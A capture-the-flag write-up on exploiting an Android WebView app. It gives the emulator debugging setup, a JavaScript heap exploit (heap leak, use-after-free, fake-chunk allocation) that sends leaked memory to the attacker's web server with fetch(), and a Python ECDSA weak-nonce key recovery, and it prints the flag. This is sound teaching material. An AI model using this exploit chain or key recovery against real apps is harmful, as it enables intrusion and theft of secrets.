We have almost everything we need to debug the application, but there is one last question: when exactly should we attach the debugger? Probably, we want to do it before the URL is processed. But how can we do that? Well, the answer isn’t obvious if we’re not familiar with Android. With advice from a teammate, I came up with the following idea: we can force our application to wait for a Java debugger (`jdb`) to connect and attach `gdbserver` while it waits. Then, we can simply connect `jdb` and quit it to allow normal execution to continue. To do this, we need to modify the way we start the application slightly:

```bash
adb shell am set-debug-app -w bi0sctf.challenge
adb shell am start -S -n bi0sctf.challenge/.MainActivity --es url "$URL"
```
After that start we can attach `gdbserver`, connect `gdb` to it and continue normal application execution with `jdb`:
```bash
adb forward tcp:8100 jdwp:$(adb shell pidof -s bi0sctf.challenge)
jdb -attach localhost:8100
CTRL-C
```
After that we'll get normal execution of our application controlled by `gdb`.

### Script It All Together

Since there are many `adb` command sequences that are hard to input manually every time we want to do something, let's put them into one helper action-based [script](/task/Handout/helper) for convenience:

```bash
#!/bin/bash

# Environment copied from author's start script
home="/home/user"
adb_port=11000
emu_port=11001
apk_path="/chall/app.apk"
export ANDROID_ADB_SERVER_PORT="${adb_port}"
export ANDROID_SERIAL="emulator-${emu_port}"
export ANDROID_SDK_ROOT="/opt/android/sdk"
export ANDROID_SDK_HOME="${home}"
export ANDROID_PREFS_ROOT="${home}"
export ANDROID_EMULATOR_HOME="${home}/.android"
export ANDROID_AVD_HOME="${home}/.android/avd"
export JAVA_HOME="/usr/lib/jvm/java-17-openjdk-amd64"
export PATH="/opt/android/sdk/cmdline-tools/latest/bin:/opt/android/sdk/emulator:/opt/android/sdk/platform-tools:/bin:/usr/bin:${PATH}"

# Convenient variable for possible script reuse
APP="bi0sctf.challenge"
ACTION="$1"

case "$ACTION" in
  emu)
    # Create AVD device
    avdmanager \
      create avd \
      --name 'Pixel_4_XL' \
      --abi 'default/x86_64' \
      --package 'system-images;android-30;default;x86_64' \
      --device pixel_4_xl \
      --force

    # Run emulator
    emulator \
      -avd Pixel_4_XL \
      -no-cache \
      -no-snapstorage \
      -no-snapshot-save \
      -no-snapshot-load \
      -no-audio \
      -no-window \
      -no-snapshot \
      -no-boot-anim \
      -wipe-data \
      -accel on \
      -netdelay none \
      -netspeed full \
      -delay-adb \
      -writable-system \
      -port ${emu_port}
    ;;

  init)
    # Wait for emulator to wake up
    adb wait-for-device
    # Install APK
    adb install -r "${apk_path}"

    # Disable security feature to allow debugging
    adb root                                  # get root adbd
    adb remount                               # make /system writable
    adb shell setenforce 0                    # stop SELinux from blocking
    adb shell setprop security.perf_harden 0  # unlock perf counters

    # Install gdbserver and forward port for him
    adb push /opt/android/sdk/ndk-bundle/prebuilt/android-x86_64/gdbserver/gdbserver /data/local/tmp/
    adb shell "chmod +x /data/local/tmp/gdbserver"
    adb forward tcp:1338 tcp:1338
    ;;

  run)
    # Run application with given URL
    URL="$2"
    if [ -z $URL ]; then
      echo "Usage: $0 start <URL>"
      exit 1
    fi
    adb shell am start -S -n "${APP}/.MainActivity" --es url "$URL"
    ;;

  dbg)
    # Run application with given URL in debug mode to force it wait jdb connection
    URL="$2"
    if [ -z $URL ]; then
      echo "Usage: $0 debug <URL>"
      exit 1
    fi
    adb shell am set-debug-app -w bi0sctf.challenge
    adb shell am start -S -n "${APP}/.MainActivity" --es url "$URL"
    ;;

  cont)
    # Continue execution of application that wait's for jdb connection
    adb forward --remove tcp:8100
    adb forward tcp:8100 jdwp:$(adb shell pidof -s "${APP}")
    jdb -attach localhost:8100
    ;;

  logs)
    # Output application logs
    adb logcat --pid $(adb shell pidof -s "${APP}")
    ;;

  gdbsrv)
    # Attach gdbserver
    adb shell "/data/local/tmp/gdbserver :1338 --attach $(adb shell pidof -s \"${APP}\")"
    ;;
    
  *)
    adb $@
    ;;
esac
```
This script was copied to the Docker image. 

With that script, the [start.sh](./task/Handout/start.sh) from the container `CMD` looks as follows:
```bash
#!/bin/bash

cd /chall
adb start server
./helper init &
./helper emu
```
So, after the container starts and the emulator wakes up, we end up with the complete environment.

### Finding Bob

You probably thought by now (like I did during the CTF) that we were done with preparing and could start exploitation. But there’s one problem: we need to debug code inside the `libbob.so` library. So, we need to know its address… And here we face a challenge. Usually, all libraries loaded by the program can be found in `/proc/<pid>/maps` by their corresponding file paths. But in our case, it seems Android loads `libbob.so` not form file named `libbob.so` but from a different place, and we can’t find its base address the usual way (even `gdb` can't say where is it loaded by it's name). Long story short, I found a 150 IQ+ way to solve this problem:
```bash
adb shell 'grep -E "00880000.*base.apk" /proc/$(pidof -s bi0sctf.challenge)/maps | grep -oE "^[^-]*"'
```
Using the "A Close Look" method, I found which line in `/proc/<pid>/maps` corresponds to `libbob.so`, and this shell command can be used to find it when it’s loaded.

## Exploitation: Heap Leak

Finally, we are here and can start PWNing. Joking - just a little bit more preparation!


### JS interface

As we figured out, we need to create a web page with the exploit implemented in JavaScript. To deliver our exploit, we can use a simple web server:
```bash
python3 -m http.server 14444
```

And send to the application following URL:
```
http://<IP>:14444/exploit.html
```
Assume, [exploit.html](./task/exploit.html) is the name of file with exploit.

Let's start implementing some JavaScript functions to interact with `libbob.so` code:
```JavaScript
function add(arr) {
  return aespa.secure_addNote(arr);
}

function edit(idx, arr) {
  return aespa.secure_edit(arr, idx);
}

function del(idx) {
  return aespa.secure_deleteNote(idx);
}

function read(idx) {
  return aespa.secure_getId(idx);
}

function enc() {
  return aespa.secure_encryption()
}
```
One important point to notice here is the types we should use with interface methods. The note ID - `idx` - is defined as a `long` in the Java code, so we can pass a simple JavaScript `Number` to it. But the note content is defined as a `byte[]`. After a little web searching, I figured out that we can use a JS `Array` for this.

Also, we'll probably need some helper functions for PWNing:
```JavaScript
// Secret debugging technique
function sleep(s) {
  const ms = 1000 * s
  const start = Date.now();
  while (Date.now() - start < ms) {}
}

function hex(x) {
  console.log("0x"+x.toString(16));
}

// Convert BigInt to Array that we can pass to add/edit
function pack(num) {

 const result = new Array(8);

  for (let i = 0; i < 8; i++) {
    result[i] = Number(num & 0xFFn);
    num >>= 8n;
  }

  return result;
}
```

Another thing we need to consider is how we will transfer the leaked data back to us. The simplest idea is to use the same web server we used for hosting the URL. Thus, we can do the following:
```JavaScript
function exploit()
{
  console.log("exploit");
  let leak = "leaked";
  // TODO: leak heap
  fetch("/" + leak);
}

exploit();
```

After running it we'll see the following in the application logs:
```
... chromium: [INFO:CONSOLE(128)] "exploit" ...
```
And in the web server logs:
```
172.29.40.192 - - [11/Jun/2025 00:15:29] "GET /exploit.html HTTP/1.1" 200 -
172.29.40.192 - - [11/Jun/2025 00:15:29] code 404, message File not found
172.29.40.192 - - [11/Jun/2025 00:15:29] "GET /leaked HTTP/1.1" 404 -
```
And the last thing we need to think about before we get to the use-after-free exploitation is the restriction we have for writing. What do I mean? Let’s go back to the decompiled code of the `edit` method again:
```c
      v7 = (const char *)(*(__int64 (__fastcall **)(__int64, const char *, _QWORD))(*(_QWORD *)some_java_shit + 1472LL))(
                           some_java_shit,
                           new_note_obj,
                           0LL);
      v8 = (void *)noteBook[note_id];
      v9 = strlen(v7);
      memcpy(v8, v7, v9);
```
As we can see, it copies our input up to its `strlen` (the same behavior we saw in the `addNote` method). This means we can’t just pass an `Array` of zeros to be written. But what if we need to write zeros? The probability of such a need is quite high. If we look at the `edit` method a little more closely, we’ll come to a solution:
```c
      if ( note_len <= 0x1F )
      {
        v10 = noteBook[note_id];
        note_len = strlen(v7);
        *(_BYTE *)(v10 + note_len) = 0;
      }
```
It writes a null byte right after the end of the note. So, we can use the following strategy to write arbitrary bytes to the note buffer:

1. Create a copy of the note we want to write, with all zeros replaced.  
2. Write this copy to the note buffer via `edit`.  
3. Find the index of the last zero byte in the original note.  
4. Write the note’s copy sliced up to this index via `edit`.  
5. Replace the last zero byte in the original with something different from zero
6. Go back to step 3 and repeat until the entire note is written.

Here is an implementation of this algorithm:
```JavaScript
function edit2(idx, arr) {
  const arr2 = arr.map(item => item === 0 ? 0xFF : item);

  edit(idx, arr2);
  while (arr.lastIndexOf(0) != -1)
  {
    const zero_idx = arr.lastIndexOf(0);
    const to_write = arr2.slice(0, zero_idx+1);

    to_write[zero_idx] = 0x00;
    edit(idx, to_write);
    arr[zero_idx] = 0xFF;
  }
}
```
I think now we are finally prepared enough to start exploiting the vulnerability.

### use-after-free


As we have already seen, there is, among other vulnerabilities, a use-after-free. Unfortunately, we faced a case where a keep-it-simple-stupid approach to exploiting this vulnerability using a first-fit mechanism and following collisions with some object is inappropriate: only our notes and the results of `trigger_encryption` are written in the heap. Since we can't normally read data from notes, reusing them for `trigger_encryption` output won't help us. By the way, the heap itself is represented by a single memory page fully managed by `talloc`.

All this means that we can't confuse our note with some other object to abuse use-after-free, and I think we have only one way to PWN it: we need to read the allocator’s [source code](https://github.com/teambi0s/bi0sCTF/blob/main/2024/Pwn/tallocator/admin/src/tallocator.c) (which we have from the previous part of this task).

Before we dive into Tallocator, we need to notice a small difference in its version in `libbob.so`: there is no `runDebug` logic and no RWX page that could easily be used as a gadget for exploitation up to RCE.

### Tallocator

So, we can write up to 0x20 bytes in the freed `talloc` chunk. What can we do with that? Of course, first, we need to understand what `talloc` stores in a freed chunk, if it stores anything at all. 

Now, let's look at its macro definitions: 
```c
// Helper macros
#define ull unsigned long long

// 16 byte aligned heap structure.
#define ALIGNMENT 16
#define ALIGN(size) (((size) + (ALIGNMENT-1)) & ~15)

// data retrieval and updation
#define GET(p) (*(ull *)(p))
#define PUT(p, val) (*(ull *)(p) = (ull)(val))

// Head to all the short free list.
#define HEAD_SHORT *(ull *)(HeapStart+16)
#define HEAD_LONG *(ull *)(HeapStart+24)
#define SET_FWD(p, val) *(ull *)(p) = (ull)val
#define SET_BKD(p, val) *(ull *)(p+8) = (ull)val
#define GET_FWD(p) *(ull *)(p)
#define GET_BKD(p) *(ull *)(p+8)
#define SET_USE(p) *(ull *)(p-8) = (*(ull *)(p-8)) | 0b1
#define SET_FREE(p) *(ull *)(p-8) = (*(ull *)(p-8)) & ~(0b1UL)
#define CHK_USE(p) ((*(ull  *)(p-8)) & 0b1)

// metadata
#define GETSIZE(p) (*(ull *)(p-8))

// Globals
static void* HeapStart;
static void* runDebug;
static ull Debugger_talloc=0;
static ull Debugger_free=0;
static bool init_called = false;
static void* top_chunk;
```
The words `FWD`, `BKD`, and `HEAD` will sound familiar to anyone who has dealt with [glibc malloc](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/), and from this code we can figure out the following:  

1. `talloc` uses doubly linked lists to manage memory chunks.  
2. There are two lists of such chunks: short and long, which probably correspond to small and big chunks, respectively.  
3. It uses one qword right before the chunk's pointer to store the chunk’s `SIZE` along with the in-use bit.  
4. The first two qwords of the chunk, `FWD` and `BKD`, are used to store pointers to the next and previous chunks inside the linked lists, respectively.

Next , lets look at its init function:
```c
int init_talloc(){
    if(init_called == true){
        return 0;
    }

    runDebug = mmap((void*)0x41410000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    init_called = true;
    HeapStart = sbrk(0x1000);

    PUT(HeapStart+8, 0x30);
    PUT(HeapStart+0x38, (0x1000 - 0x38));
    PUT(HeapStart+0x20, 0x3a63);
    top_chunk = HeapStart + 0x38;
}
```
As I previously mentioned, there is no `runDebug` in our version of `talloc`, and `HeapStart` points to a single page allocated with `mmap` and RW permissions. We can see that, like `malloc`, `talloc` has a top chunk that is probably used to allocate memory when there is no appropriate chunk in the free lists.

It becomes clear that `talloc` behaves like a smaller version of `malloc`. To keep things simpler, I won't show the full source code of `talloc` here, but I will summarize its algorithm:  
1. `talloc` determines the allocation `SIZE` as `ALIGN(request_size + 8)`, but minimal allocation `SIZE` is `0x20`  
2. First, for small allocation `SIZE`, it looks for a short chunk, unlinking it if found.  
3. Second, for bigger allocation `SIZE`, it does the same with the list of long chunks.
4. Lastly, If no free chunk is found, `talloc` takes a part of the top chunk.


An important thing to notice is the checks that `talloc` performs during its operations:  
1. It checks that the chunk being allocated doesn't have the in-use bit set to avoid allocating the same chunk twice in case of corruption.  
2. It checks that the chunk being freed does have the in-use bit set, for the same reason.

It seems that we can abuse the use-after-free vulnerability to write our own values for the `FWD` and `BKD` pointers of a free chunk. This way, we can force `talloc` to allocate an address we want. But to do this, we need to know the addresses we want to allocate. A simple experiment shows that ASLR is enabled, so we don’t know any addresses. Therefore, we need to leak something.

### Heap Address

Let's remember what we can read from Tallocator's heap. We have the `getId` method that allows us to read `0x08` bytes at an offset of `0x20` bytes from the note. If we look at the debugger or just calculate carefully, we see that for all our small notes (with `request_size <= 0x18`), `talloc` allocates chunks of `SIZE` `0x20` bytes. The first `0x08` bytes of these chunks are used to store the `SIZE` and in-use bit, after the `SIZE` we have `0x20-0x08=0x18` bytes of usable chunk space. So, at offset of `0x18` from the start of usable space (actually, from the note's start) should be the size of the next chunk, and at offset `0x20` should be the first `0x08` bytes of usable space of the next chunk. If the next chunk is freed, then the `getId` method will return its `FWD` pointer. It seems that we have found a heap address leak:
```JavaScript
  const junk  = Array.from(new TextEncoder().encode("JUNK"));
  const aaaa  = add(junk);
  const bbbb  = add(junk);
                add(junk); // guard
  del(aaaa);
  del(bbbb);

  const heap = BigInt(read(aaaa)) - 0x40n;
```
This code creates two small chunks, frees them, and reads the address of one chunk from the other via the `getId` method. Since we fully control the `talloc` calls, the leaked address has a fixed offset from the beginning of the heap. Now, we have a leak of the heap address.

### Biba & Boba


Okay, now we know all heap addresses including those used to keep the results of the `trigger_encryption` function. But how can we read them? Obviously, we need to read them using notes allocated `0x20` bytes before the qwords we want to read. How do we force `talloc` to allocate it? We can corrupt its linked list by putting the fake chunk with the required address there. But we can't put just any address, because there is no valid fake chunk. A fake chunk needs to satisfy two conditions:  
1. The `SIZE` (at `address-0x08`) of the fake chunk should be `0x20` or `0x30` with the in-use bit unset; otherwise, `talloc` won't allocate it as a note.  
2. `FWD` (at `address+0x00`) and `BKD` (at `address+0x08`) should be correct to avoid a segfault during unlinking.

So, we need to somehow write a fake chunk at the address we want to allocate from `talloc`. Specifically, we need to write it `0x20` bytes before the qword we want to read. And first, we want to read the first qword of `trigger_encryption` results. Actually, we can achieve this simply by calling `getId` with a note corresponding to the last `0x20` bytes chunk before them. Let's call this note and corresponding chunk Boba. So, we can leak the first qword from Boba. But after that, to read the second qword, we need to allocate a note with an address shifted by `0x08` bytes relative to the address of Boba. That means that we need to create a fake chunk right inside Boba's usable space - we can simply write `0x03` qwords (`SIZE` + `FWD` + `BKD`) to Boba. If allocated, this fake chunk will give us a leak of the qword right after the one we leaked with Boba. But how can we allocate it?

Firstly, to allocate anything, we need to overwrite `FWD` of an already freed chunk. Let's call such a chunk Biba. When Biba is freed and the corresponding free list is empty, it will become its head with `BKD` pointing to the `HEAD` address and `FWD` equal to zero. If we write the address of the fake chunk to its `FWD`, it will be allocated right after Biba in the next call to `talloc`. It seems that we figured out how to allocate the fake chunk! But what `SIZE`, `FWD`, and `BKD` should we put there using Boba?

We should use `0x20` as its `SIZE`, zero for `FWD` (the fake chunk is the last one in the list), and `BKD` pointing to Biba to make our doubly linked list valid.

Okay, we leaked the first qword using Boba and the second one using the fake chunk created by Boba. What should we do next? I think Boba should transfer its role to the fake chunk! We can use the fake chunk exactly as we used the original Boba to create a new fake chunk and leak the next qword.

Let's try to put it all together into an algorithm:  
1. Allocate a chunk called Biba.  
2. Allocate a chunk called Boba with size `0x20` bytes.  
3. Trigger encryption to place the data we want to leak right after Boba.  
4. Leak the qword using Boba.  
5. Write the fake chunk to Boba's usable space (its note).  
6. Free Biba.  
7. Write the address of the fake chunk to Biba's `FWD`.  
8. Allocate Biba back.  
9. Allocate the fake chunk.  
10. Make the fake chunk the new Boba.  
11. Go to step 4 until we read everything we want.

Well, what? Yeah, it sounds really complicated, but it's a classic situation when PWNing allocator's metadata. Let's move on to the exploit code to make it easier.

### Exploit

Here is the complete code implementing the described strategy:
```JavaScript
function exploit()
{
  // Allocate aaaa and bbbb
  const junk  = Array.from(new TextEncoder().encode("JUNK"));
  const aaaa  = add(junk);
  const bbbb  = add(junk);
                add(junk); // guard
  // Free aaaa and bbbb to make bbbb.BKD == aaaa
  del(aaaa);
  del(bbbb);

  // Leak heap address from aaaa (read bbbb.BKD)
  const heap          = BigInt(read(aaaa)) - 0x40n;

  // Compute addresses we need using fixed heap offset
  const secrets_start = heap + 0x0e0n;
  const biba_start    = heap + 0x0a0n;
  const head          = heap + 0x010n;
  hex(heap);

  // Make free list empty after the heap address leak
  add(junk);
  add(junk);

  // Create Biba and Boba
  let biba  = add(junk);
  let boba  = add(junk);

  // Trigger encryption to put it's results right after Boba
  enc();

  // Leak first qword using real Boba
  let leak = BigInt(read(boba)).toString(16);
  hex(BigInt(read(boba)));

  // Define how much we want to leak from the heap right after Boba
  const leaksz = 0x200n;
  let   leaked = 0x008n;
  while (leaked < leaksz)
  {
    // Free Biba
    del(biba);

    // Write the next fake Boba address to the Biba.FWD
    let arr = pack(secrets_start-0x20n+leaked); // FWD
        arr = arr.concat(pack(head));           // BKD
    edit2(biba, arr);

    // Write fake Boba to it's place using the previous one
    arr =            pack(0x20n);       // Size
    arr = arr.concat(pack(0x00n));      // FWD
    arr = arr.concat(pack(biba_start)); // BKD
    edit2(boba, arr);

    // Allocate Biba back
    biba = add(junk);
    // Allocate new fake Boba
    boba = add(junk);

    // Read the leak
    const new_leak = BigInt(read(boba))
    hex(new_leak);
    leak   += '+'+ new_leak.toString(16);
    leaked += 0x08n;

    // Free the fake Boba to avoid note's amount exhausting
    del(boba);
  }

  // Send the leak back to the web server
  fetch("/"+leak);
}
```
We'll run this and receive the following at the web server:
```
172.29.40.192 - - [11/Jun/2025 17:27:45] "GET /exploit.html HTTP/1.1" 200 -
172.29.40.192 - - [11/Jun/2025 17:27:46] code 404, message File not found
172.29.40.192 - - [11/Jun/2025 17:27:46] "GET /a388b57302459761+82a20c75fc072e9+57bf78d424c79840+...
```
This means that we successfully leaked results of `trigger_encryption`.

## Exploitation: Crypto Puzzle

### Problem

Let's start thinking about what we should do with our heap leak. But what exactly did we leak? According to the decompiled code of the `trigger_encryption` function, there are two `secp256k1_ecdsa` signatures of known messages and the flag encrypted with `aes-128-cbc`. Let's write the code that will parse them from the bytes we leaked in the HTTP request from our exploit:
```Python
from sys import argv
from pwn import *

leak = argv[1]

leak_bytes = b''.join(p64(int(x, 16)) for x in leak.split('+'))
sig1       = leak_bytes[0x00*0:0x00*0+0x40]
sig2       = leak_bytes[0x50*1:0x50*1+0x40]
cipher     = leak_bytes[0x50*2:0x50*2+0x20]
```
It simply puts all the qwords we leaked together and then extracts our crypto values from them using known heap leak offsets.

After that, we come to another question: what is the format of the values we leaked? Here, we return to the strange thing we noticed in the `trigger_encryption` function — it saves its results without serialization. So, we have some platform-dependent format of signatures. Probably, we want to serialize them ourselves to use a more widely accepted format for future cracking. “Similia similibus curantur,” so let's write a small piece of C code that serializes our signatures using the [same secp256k1 library](https://github.com/bitcoin-core/secp256k1) but [compiled](./task/libsecp256k1.a) by ourselves:
```c
/*
 *  $ gcc -o convert convert.c libsecp256k1.a
 */
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>

#include <unistd.h>
#include <secp256k1.h>

int main(int argc, char **argv)
{
  secp256k1_context *ctx =
    secp256k1_context_create(SECP256K1_CONTEXT_SIGN);
  if (!ctx)
  {
    fprintf(stderr, "Failed to create secp256k1 context\n");
    return EXIT_FAILURE;
  }

  while (true)
  {
    secp256k1_ecdsa_signature sig;
    if (read(STDIN_FILENO, &sig, sizeof(sig)) != sizeof(sig))
    {
      perror("read");
      return EXIT_FAILURE;
    }

    uint8_t compact[64];
    secp256k1_ecdsa_signature_serialize_compact(ctx, compact, &sig);
    if (write(STDOUT_FILENO, compact, sizeof(compact)) != sizeof(compact))
    {
      perror("write");
      return EXIT_FAILURE;
    }
  }
}
```
It's a simple converter running in an infinite loop that reads raw bytes of a signature from stdin, converts them, and outputs the result to stdout. Here is the Python code corresponding to this converter:
```Python
converter = process('./convert', level='critical')
converter.send(sig1)
sig1 = converter.recv(64)
converter.send(sig2)
sig2 = converter.recv(64)
converter.close()
``` 

Now we have two signatures and the encrypted flag in a known format. What do we do with them? Since the flag is normally encrypted by AES, we somehow need to recover its key and IV using the fact that they were derived from the private key used to sign the messages.  

Well, we need to recover the `secp256k1_ecdsa` private key from the two signatures. My knowledge of cryptography is perfectly described by the fact that I got the lowest possible mark in the corresponding subject during my university studies, so I'll try to think about it as a black box.  

Since `secp256k1_ecdsa` is a real-world signing algorithm used even in Bitcoin, we probably shouldn’t focus on the algorithm itself, but rather on how it was used in the `trigger_encryption` function. Specifically, a custom nonce generation function was used to compute the nonce from other signing parameters:

```c
__int64 __fastcall noncefn(_OWORD *nonce, _OWORD *msg, _OWORD *key)
{
  *nonce = *key;
  nonce[1] = *msg;
  return 1LL;
}
```
Actually, the decompiler is lying to us a little bit here. Here is its assembly code:
```
movups  xmm0, xmmword ptr [rdx]
movups  xmmword ptr [rdi], xmm0
movups  xmm0, xmmword ptr [rsi]
movups  xmmword ptr [rdi+10h], xmm0
mov     eax, 1
retn
```

From this, we can see that the nonce for the signature is constructed in the following way:

1. The first 16 bytes of the nonce are equal to the first 16 bytes of the private key.  
2. The second 16 bytes of the nonce are equal to the first 16 bytes of the message’s SHA1 hash, which we know.

Probably, this function is not the best idea for nonce generation, because even with zero knowledge, after some research we can [find](https://notsosecure.com/ecdsa-nonce-reuse-attack) the "ECDSA Nonce Reuse Attack," which is not exactly our case (only the lowest 16 bytes of the nonce are reused there) but it’s close. Well, I think the human resources are exhausted again and it’s time to call Gopatych.

### Solution


Long story short, a badly crypto-educated zoomer gave a crypto puzzle to his neurobro Gopatych, and after some debugging, came up with the following script (I have no idea what’s going on here - sorry if you were expecting some clever thoughts about the crypto part of this task):

```Python
# (c) GPT-o3

from hashlib import sha256
from Crypto.Cipher import AES

n     = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141
SHIFT = 1 << 128

msg1  = "Lord, grant me the strength to accept the things I cannot change; Courage to change the things I can; And wisdom to know the difference."
msg2  = "Wherever There Is Light, There Are Always Shadows"
assert(len(msg1) == 136)
assert(len(msg2) == 49)

z1_bytes = sha256(msg1.encode()).digest()
z2_bytes = sha256(msg2.encode()).digest()
z1, z2   = int.from_bytes(z1_bytes, "big"), int.from_bytes(z2_bytes, "big")
m1, m2   = int.from_bytes(z1_bytes[:16], "big"), int.from_bytes(z2_bytes[:16], "big")

# ── helper lambdas ─────────────────────────────────────────────────────────
b2i   = lambda b: int.from_bytes(b, "big")
inv   = lambda x: pow(x, -1, n)

# ── parse the two signatures we just received from the file ───────────────
r1, s1 = b2i(sig1[:32]), b2i(sig1[32:])
r2, s2 = b2i(sig2[:32]), b2i(sig2[32:])

R1, R2 = inv(r1), inv(r2)                       # r⁻¹  (mod n)

# ── collect all plausible private-key candidates ──────────────────────────
candidates = []

for s1_eff in (s1, (n - s1) % n):              # cope with canonical “low-s”
    P1 = (s1_eff * SHIFT % n) * R1 % n
    Q1 = ((s1_eff * m1 - z1) % n) * R1 % n

    for s2_eff in (s2, (n - s2) % n):
        P2 = (s2_eff * SHIFT % n) * R2 % n
        Q2 = ((s2_eff * m2 - z2) % n) * R2 % n

        A  = (P1 - P2) % n
        if A == 0:                                   # (extremely unlikely)
            continue

        X  = ( (Q2 - Q1) % n ) * inv(A) % n          # one modular solution

        # the *real* upper-half of the nonce must be < 2¹²⁸
        X  = X if X < SHIFT else X - n               # bring it into range
        if X >= SHIFT:                               # still too large → impossible
            continue

        # full nonces
        k1 = (X << 128) + m1
        k2 = (X << 128) + m2

        # derived private key
        d  = ( (s1_eff * k1 - z1) % n ) * R1 % n

        # cross-check with the 2nd signature
        if (s2_eff * k2 - z2) % n == (r2 * d) % n:
            candidates.append(d)

for d in candidates:
  key  = sha256(d.to_bytes(32, "big")).digest()[:16]
  iv   = d.to_bytes(32, "big")[:16]
  pt   = AES.new(key, AES.MODE_CBC, iv).decrypt(cipher)
  pad  = pt[-1]
  flag = pt[:-pad]
  print(flag)
```

### Flag

Putting it all together, we run the complete solve script with the data leaked from the remote server and retrieve the flag:
```
bi0sctf{r0cket_punch3r_x3n0gl055y_4rmament3r_3dh4cker_13819240}
```
## Conclusion

Well, probably everything in this world - even an Android application - can be PWNed if you have the right vulnerability, Gopatych bro, and are brave enough to set up the environment. But did we actually PWN it?..




